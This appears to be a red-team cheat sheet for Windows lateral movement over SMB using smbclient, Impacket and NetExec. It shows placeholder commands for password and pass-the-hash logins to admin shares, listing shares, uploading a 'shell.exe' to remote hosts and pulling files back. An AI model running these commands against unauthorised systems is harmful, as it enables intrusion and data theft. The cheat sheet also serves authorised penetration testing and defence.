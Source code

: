 # Unix Shell

Search Tag(s): #lateral-movement #windows

## 01 - Authenticate

### 1.1 - Samba Suite Utils

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/c$
```

Pass the Hash

```
$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$
```

### 1.2 - Impacket

```
$ smbclient.py [<domain>/]<username>:<password>@<IP>
```

Pass the Hash

```
$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>
```

### 1.3 - NetExec

#### 1.3.1 - Authentication

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth]
```

Pass the Hash

```
$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

```
smb: \> ls
```

### 2.2 - Impacket

```
# use c$

# ls
```

### 2.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --shares
```

## 03 - Copy Files

### 3.1 - Samba Suite Utils

Upload file

```
smb: \> put /path/to/local/shell.exe
```

Download file

```
smb: \> get \path\to\remote\file.txt
```

### 3.2 - Impacket

Upload file

```
# put /path/to/local/shell.exe
```

Download file

```
# get \path\to\remote\file.txt
```

### 3.3 - NetExec

Upload file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe
```

Download file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt
```

---
## References

- [NetExec Wiki: Get and Put Files](https://www.netexec.wiki/smb-protocol/get-and-put-files)